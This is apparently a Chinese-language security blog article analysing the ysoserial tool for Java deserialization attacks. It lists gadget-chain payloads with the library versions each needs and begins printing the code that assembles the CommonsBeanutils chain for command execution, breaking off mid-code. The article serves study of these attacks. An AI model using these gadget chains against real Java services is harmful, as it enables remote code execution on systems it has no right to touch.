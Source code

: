 # java反序列化工具ysoserial分析

0x00 前言
=====

关于java反序列化漏洞的原理分析，基本都是在分析使用`Apache Commons Collections`这个库，造成的反序列化问题。然而，在下载老外的**ysoserial**工具并仔细看看后，我发现了许多值得学习的知识。

至少能学到如下内容:

*   不同反序列化`payload`玩法
*   灵活运用了反射机制和动态代理机制构造POC

java反序列化不仅是有`Apache Commons Collections`这样一种玩法。还有如下payload玩法:

*   `CommonsBeanutilsCollectionsLogging1`所需第三方库文件: commons-beanutils:1.9.2，commons-collections:3.1,commons-logging:1.2
*   `CommonsCollections1`所需第三方库文件: commons-collections:3.1
*   `CommonsCollections2`所需第三方库文件: commons-collections4:4.0
*   `CommonsCollections3`所需第三方库文件: commons-collections:3.1(`CommonsCollections1`的变种)
*   `CommonsCollections4`所需第三方库文件: commons-collections4:4.0(`CommonsCollections2`的变种)
*   `Groovy1`所需第三方库文件: org.codehaus.groovy:groovy:2.3.9
*   `Jdk7u21`所需第三方库文件: 只需JRE版本 <= 1.7u21
*   `Spring1`所需第三方库文件: spring框架所含spring-core:4.1.4.RELEASE,spring-beans:4.1.4.RELEASE

上面标注了payload使用情况下所依赖的包，诸位可以在源码中看到，根据实际情况选择。

通过对该攻击代码的分析，可以学习java的一些有意思的知识。而且，里面写的java代码也很值得学习，巧妙运用了反射机制去解决问题。老外写的POC还是很精妙的。

0x01 准备工作
=====

*   在github上下载[ysoserial](https://github.com/angelwhu/ysoserial)工具。
*   使用maven进行编译成Eclipse项目文件，`mvn eclipse:eclipse`。要你联网下载依赖包，请耐心等待。如果卡住了，停止后再次执行该命令。

导入后，可以看到里面有8个payload。其中`ObjectPayload`是定义的接口，所有的Payload需要实现这个接口的`getObject`方法。下面就开始对这些payload进行简要的分析。

![](http://drops.javaweb.org/uploads/images/f8b53a1908370ce4eda5d3f7304532cdea5804b1.jpg)

0x02 payload分析
=====

1. CommonsBeanutilsCollectionsLogging1
--------------------------------------

该payload的要求依赖包挺多的，可能碰到的情况不会太多，但用到的技术是极好的。对这个payload执行的分析，请阅读参考资源第一个的分析文章。

这里谈谈我的理解。先直接看代码：

```
public Object getObject(final String command) throws Exception {
    final TemplatesImpl templates = Gadgets.createTemplatesImpl(command);
    // mock method name until armed
    final BeanComparator comparator = new BeanComparator("lowestSetBit");

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
    // stub data for replacement later
    queue.add(new BigInteger("1"));
    queue.add(new BigInteger("1"));

    // switch method called by comparator
    Reflections.setFieldValue(comparator, "property", "outputProperties");
    //Reflections.setFieldValue(comparator, "property", "newTransformer");
    //这里由于比较器的代码，只能访问内部属性。所以选择outputProperties属性。 进而调用getOutputProperties方法。  @angelwhu

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
```